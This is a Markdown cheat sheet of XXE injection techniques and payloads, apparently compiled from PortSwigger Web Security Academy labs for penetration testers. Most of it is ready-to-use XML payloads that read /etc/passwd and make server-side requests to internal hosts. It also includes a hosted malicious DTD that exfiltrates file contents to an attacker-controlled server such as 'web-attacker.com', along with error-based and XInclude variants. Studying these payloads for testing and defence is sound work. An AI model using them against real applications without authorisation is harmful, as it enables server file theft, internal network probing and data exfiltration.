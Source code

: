 # XXE Injection

## Summary

* [Recon for XXE](#recon)

* [Portswigger Labs Cheat Sheet / Payloads](#cheat-sheet)

## Resources

* https://portswigger.net/web-security/xxe

* https://www.youtube.com/watch?v=gjm6VHZa_8s

* https://cheatsheetseries.owasp.org/cheatsheets/XML_External_Entity_Prevention_Cheat_Sheet.html 

* https://owasp.org/www-project-web-security-testing-guide/stable/4-Web_Application_Security_Testing/07-Input_Validation_Testing/07-Testing_for_XML_Injection 

## Recon

### How to find and test for XXE vulnerabilities

* https://www.bugcrowd.com/blog/how-to-find-xxe-bugs/ 


* Manually testing for XXE vulnerabilities generally involves:

    * Testing for file retrieval by defining an external entity based on a well-known operating system file and using that entity in data that is returned in the application's response.


    * Testing for blind XXE vulnerabilities by defining an external entity based on a URL to a system that you control, and monitoring for interactions with that system. Burp Collaborator client is perfect for this purpose.


    * Testing for vulnerable inclusion of user-supplied non-XML data within a server-side XML document by using an XInclude attack to try to retrieve a well-known operating system file.


    * If the application is allowing to upload files with a svg, xml, xlsx extension or any other file formats that either use or contain XML subcomponents, try injecting an appropriate XXE payload. 


    * Modify the content type of the requests to XML type and see if the application still processes the modified data correctly.  If it does try injecting a XXE payload.


* https://portswigger.net/web-security/xxe#how-to-find-and-test-for-xxe-vulnerabilities

---

## Cheat Sheet


**If the application <u>is returning</u> the values of the defined external entities in its response, we can try the following techniques:**


### File Retrieval

* Inject the following payload in the body of the request on the target application:

```xml
<!DOCTYPE foo [ <!ENTITY xxe SYSTEM "file:///etc/passwd"> ]>
```

* Then use the defined xxe entity in an xml value in the request:

```xml
&xxe;
```

* We may be able to see the contents of the /etc/passwd file in the response.

<br>

### In-band SSRF

* Inject the following payload in the body of the request on the target application:

```xml
<!DOCTYPE foo [ <!ENTITY xxe SYSTEM "http://internal.vulnerable-website.com/"> ]>
```

* Then use the defined xxe entity in an xml value in the request:

```xml
&xxe;
```

* We may be able to see the HTTP response returned from the internal website.


<br><br>

### Example:  XXE Injection Attack

* The XML value in \<productId\> is being reflected in the response when an error is triggered so this was a good target for in-band XXE injection.

* The below is an example payload for XXE injection:



![XXE Injection](https://github.com/ChrisM-X/Payloads_Cheat-Sheets/blob/main/Web%20Security%20Payloads/Portswigger%20-%20Web%20Security%20Academy/XXE%20Injection/Images/XXE-1.png)



<br><br><br>

**If the application <u>is not returning</u> the values of the defined external entities in its response, we need to use Blind Payload Techniques:**



### Blind XXE to a server you control

* Inject the following payload in the body of the request on the target application:


```xml
<!DOCTYPE foo [ <!ENTITY xxe SYSTEM "http://server-you-control.com"> ]>
```

* Then use the defined xxe entity in an xml value in the request:

```xml
&xxe;
```

* Check your server logs for any network traffic.


<br>

### Blind XXE to a server you control, when regular external entities are blocked (use parameter entities):

* Inject the following payload in the body of the request on the target application:

```xml
<!DOCTYPE foo [ <!ENTITY % xxe SYSTEM "http://server-you-control.com"> %xxe; ]>
```

* Here the xxe parameter entity needs to be referenced “within” the DOCTYPE.

* Check your server logs for any network traffic.


<br><br>
### Example:  XXE Injection Parameter Entities

![XXE Injection2](https://github.com/ChrisM-X/Payloads_Cheat-Sheets/blob/main/Web%20Security%20Payloads/Portswigger%20-%20Web%20Security%20Academy/XXE%20Injection/Images/XXE-2.png)


<br><br>

### Blind XXE to exfiltrate data – malicious external DTD

* Host the following code in a .dtd file on your server:

```xml
<!ENTITY % file SYSTEM "file:///etc/passwd">
<!ENTITY % eval "<!ENTITY &#x25; exfiltrate SYSTEM 'http://server-you-control.com/?x=%file;'>">
%eval;
%exfiltrate;
```

* Now inject the following payload in the body of the request on the target application:  

```xml
<!DOCTYPE foo [<!ENTITY % xxe SYSTEM "http://server-you-control.com/malicious.dtd"> %xxe;]>
```

* This will cause the application to issue a request to the attacker's server, appending the contents of the /etc/passwd file as a query parameter.

<br>

### Blind XXE to exfiltrate data – external DTD via error messages

* Host the following code in a .dtd file on your server, the “nonexistent” file will cause an error message, and the stack trace will include the contents of the /etc/passwd in the HTTP response:


```xml
<!ENTITY % file SYSTEM "file:///etc/passwd">
<!ENTITY % eval "<!ENTITY &#x25; error SYSTEM 'file:///nonexistent/%file;'>">
%eval;
%error;
```

* Inject the following payload in the body of the request on the target application:  

```xml
<!DOCTYPE foo [<!ENTITY % xxe SYSTEM "http://web-attacker.com/malicious.dtd"> %xxe;]>
```


<br>

### Blind XXE – repurpose a local DTD

* https://portswigger.net/web-security/xxe/blind#exploiting-blind-xxe-by-repurposing-a-local-dtd


<br>

### Hidden Attack Surface – XInclude Attacks

* Inject the following payload in the body of the request on the target application: 

```xml
<foo xmlns:xi="http://www.w3.org/2001/XInclude">
<xi:include parse="text" href="file:///etc/passwd"/></foo>
```

<br>

### Hidden Attack Surface – File Upload

* https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/XXE%20Injection/README.md#xxe-in-exotic-files

<br>

### Change Content Type of Request

* Change the content type and body of the request to XML type and analyze if the application still processes the request correctly.  If it does, then we can try XXE payloads.

    * Example:  foo=bar

```xml
<?xml version="1.0" encoding="UTF-8"?>
<foo>bar</foo>
```
